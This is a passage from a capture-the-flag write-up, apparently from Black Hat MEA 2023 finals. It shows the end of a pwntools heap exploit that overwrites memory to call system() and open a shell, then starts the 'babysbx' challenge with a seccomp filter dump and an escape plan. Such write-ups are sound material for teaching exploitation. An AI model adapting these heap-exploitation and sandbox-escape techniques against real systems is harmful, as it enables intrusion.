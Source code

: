```python
payload += p64(0) * 3 + b'\xff'*4 + b'\x00'*0x4 + p64(libc.sym.system) + p64(heap + 0x710) + p64(libc.address + 0x216000 - 0x20)
allocBuf(len(payload))
readDev()
p.send(payload)
writeDev(b'A')
p.interactive()
```

## **3. babysbx**

**[0x01] Summary**

- execve syscall is restricted by binary address
- binary address leak : brk → nanosleep bruteforce
- page reallocation : mremap

[babysbx.zip](https://github.com/brwook/binary/raw/main/2023-Blackhat-MEA-Final/babysbx.zip)

**[0x02] Solution**

There is a seccomp mitigation in this binary, so I checked it.

```bash
line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x28 0xc000003e  if (A != ARCH_X86_64) goto 0042
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x25 0xffffffff  if (A != 0xffffffff) goto 0042
 0005: 0x15 0x24 0x00 0x00000002  if (A == open) goto 0042
 0006: 0x15 0x23 0x00 0x00000009  if (A == mmap) goto 0042
 0007: 0x15 0x22 0x00 0x0000000a  if (A == mprotect) goto 0042
 0008: 0x15 0x21 0x00 0x0000000b  if (A == munmap) goto 0042
 0009: 0x15 0x20 0x00 0x00000011  if (A == pread64) goto 0042
 0010: 0x15 0x1f 0x00 0x00000013  if (A == readv) goto 0042
 0011: 0x15 0x1e 0x00 0x00000038  if (A == clone) goto 0042
 0012: 0x15 0x1d 0x00 0x00000039  if (A == fork) goto 0042
 0013: 0x15 0x1c 0x00 0x0000003a  if (A == vfork) goto 0042
 0014: 0x15 0x1b 0x00 0x0000003e  if (A == kill) goto 0042
 0015: 0x15 0x1a 0x00 0x00000055  if (A == creat) goto 0042
 0016: 0x15 0x19 0x00 0x00000065  if (A == ptrace) goto 0042
 0017: 0x15 0x18 0x00 0x00000101  if (A == openat) goto 0042
 0018: 0x15 0x17 0x00 0x00000127  if (A == preadv) goto 0042
 0019: 0x15 0x16 0x00 0x00000136  if (A == process_vm_readv) goto 0042
 0020: 0x15 0x15 0x00 0x00000137  if (A == process_vm_writev) goto 0042
 0021: 0x15 0x14 0x00 0x00000142  if (A == execveat) goto 0042
 0022: 0x15 0x13 0x00 0x00000147  if (A == preadv2) goto 0042
 0023: 0x15 0x12 0x00 0x000001b3  if (A == 0x1b3) goto 0042
 0024: 0x15 0x11 0x00 0x000001b5  if (A == 0x1b5) goto 0042
 0025: 0x15 0x00 0x04 0x0000003b  if (A != execve) goto 0030
 0026: 0x20 0x00 0x00 0x00000014  A = filename >> 32 # execve(filename, argv, envp)
 0027: 0x15 0x00 0x0e 0x00005653  if (A != 0x5653) goto 0042
 0028: 0x20 0x00 0x00 0x00000010  A = filename # execve(filename, argv, envp)
 0029: 0x15 0x0b 0x0c 0xd699b050  if (A == 0xd699b050) goto 0041 else goto 0042
 0030: 0x15 0x00 0x0a 0x00000000  if (A != read) goto 0041
 0031: 0x20 0x00 0x00 0x00000024  A = count >> 32 # read(fd, buf, count)
 0032: 0x15 0x00 0x09 0x00000000  if (A != 0x0) goto 0042
 0033: 0x20 0x00 0x00 0x00000020  A = count # read(fd, buf, count)
 0034: 0x15 0x00 0x07 0x00000001  if (A != 0x1) goto 0042
 0035: 0x20 0x00 0x00 0x0000001c  A = buf >> 32 # read(fd, buf, count)
 0036: 0x25 0x05 0x00 0x00000000  if (A > 0x0) goto 0042
 0037: 0x15 0x00 0x04 0x00000000  if (A != 0x0) goto 0042
 0038: 0x20 0x00 0x00 0x00000018  A = buf # read(fd, buf, count)
```